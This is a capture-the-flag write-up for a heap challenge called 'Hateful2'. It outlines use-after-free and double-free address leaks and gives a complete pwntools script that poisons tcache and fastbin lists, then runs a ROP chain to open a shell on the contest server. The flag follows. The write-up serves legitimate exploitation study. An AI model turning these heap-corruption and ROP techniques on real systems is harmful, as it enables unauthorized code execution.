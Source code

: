 # Hateful2
![image](https://github.com/user-attachments/assets/a9d16dd8-9f5e-440d-b3ba-a012ea4f0207)

## Description
### main
![image](https://github.com/user-attachments/assets/2fcacfac-3ebd-4e48-9065-fc18d0c1ad2b)

### Functionality
![image](https://github.com/user-attachments/assets/624a4dac-0206-41c5-a241-177dd85365a4)
![image](https://github.com/user-attachments/assets/e9b56296-939e-401f-8050-29beaef8e21a)
![image](https://github.com/user-attachments/assets/e25336dc-5a47-48dc-80ec-7aa1b2f4a0c0)
![image](https://github.com/user-attachments/assets/cbbaa640-333b-4eca-b2dd-d51c5e900bc5)

## Solution
### Step 1: Leak Heap Address
Do **Use After Free** to leak heap address. We will need it for mangling/demangling next address.
### Step 2: Leak LIBC Address
Do **Use After Free** on freed chunk from unsorted bin which contains heap address in *fd* field.
### Step 3: Leak Stack Address
Do **Double Free** by filling tcache and then free-ing chunks into fastbin. 
We can overwrite next address of freed chunk and allocate chunk at memory address we want.
Allocate memory in libc to read *environ*, which stores stack address.
### Step 4: Leak Binary Address
Find binary address on the stack and leak it like step 3.
### Step 5: ROP
We have all the addresses. Now do ROP to gain shell.

## Script
```py
from pwn import *

context.binary = exe = ELF("./hateful2")
context.log_level = "error"
libc = ELF("./libc.so.6")

p = process(["nc", "52.59.124.14", "5022"], timeout=5)


def do_ROP(libc_base):
    libc.address = libc_base
    rop = ROP(libc)
    rop.raw(rop.find_gadget(['ret']))
    rop.system(next(libc.search(b'/bin/sh')))

    print(len(rop.chain()))
    return rop

def demangle(address):
    return address ^ (address>>12) ^ (address>>24) ^ (address>>36)


def malloc(i, size, payload):
    p.sendline(f"1 {i} {size} ".encode() + payload)
    sleep(0.1)
    return p.recvuntil(b"\n\n")

def edit(i, payload):
    p.sendline(f"2 {i} ".encode()+payload)
    return p.recvuntil(b"\n\n")

def view(i):
    p.sendline(f"3 {i}".encode())
    return p.recvuntil(b"\n\n")

def remove(i):
    p.sendline(f"4 {i}".encode())
    return p.recvuntil(b"\n\n")


def extract(a):
    return u64(a[-8:-2].ljust(8, b'\00'))

def heap_leak():
    for i in range(2):
        res = remove(i)
    return extract(view(1))

def leak_libc():
    malloc(15, 4000, b"gio")
    malloc(14, 10, b"fx")
    remove(15)

    return extract(view(15))




p.recvuntil(b"0.")

sz = 96
for i in range(16):
    res = malloc(i, sz, b"gio")

offset_str = heap_leak()
self_xor_correct = demangle(offset_str)
heap_page_offset = self_xor_correct & 0xfffffffffffff000
print(hex(heap_page_offset))


libc_base_offset = 0x1d2cc0
leak = leak_libc()
libc_base = leak-libc_base_offset
print(hex(libc_base))

environ_offset = 0x00000000001da320

target = libc_base + environ_offset - 0x10

# exit(0)

for i in range(2, 7):
    res = remove(i)

remove(9)
remove(7)
remove(8)
remove(7)

for i in range(7):
    malloc(0, sz, b"gio")

for i in range(3):
    malloc(i, sz, b"gio")

remove(1)
remove(0)

edit(2, p64(target ^ (heap_page_offset >> 12)))

malloc(1, sz, b"gio")
malloc(0, sz, b"a"*15)

stack_leak = view(0)[-8:-2].ljust(8, b'\00')
stack_leak = u64(stack_leak)


remove(4)
remove(1)

print(hex(stack_leak))

offset = 0x2a8
offset = -0x8 - 0x140 + 0x30 + 0x30
target = stack_leak + offset - 0x10

edit(2, p64(target ^ (heap_page_offset >> 12)))

malloc(1, sz, b"gio")
malloc(0, sz, b"a"*(23+8))
# edit(0, b'a'*7)


leak = extract(view(0))
print(hex(leak))
# p.interactive()
# exit(0)

bin_base = leak - 0x3d78
print(hex(bin_base))

offset = 0x4060

remove(5)
remove(1)

offset = -0x8 - 0x140
target = stack_leak + offset
print(hex(target))
edit(2, p64(target ^ (heap_page_offset >> 12)))


rop = do_ROP(libc_base)


malloc(1, sz, b"gio")
malloc(0, sz, p64(stack_leak-0x140-0x8+0x20) + rop.chain())
# print(view(0))


p.interactive()

p.close()
```

## FLAG
ENO{W3_4R3_50RRY_4G41N_TH4T_TH3_M3554G3_W45_N0T_53NT_T0_TH3_R1GHT_3M41L}

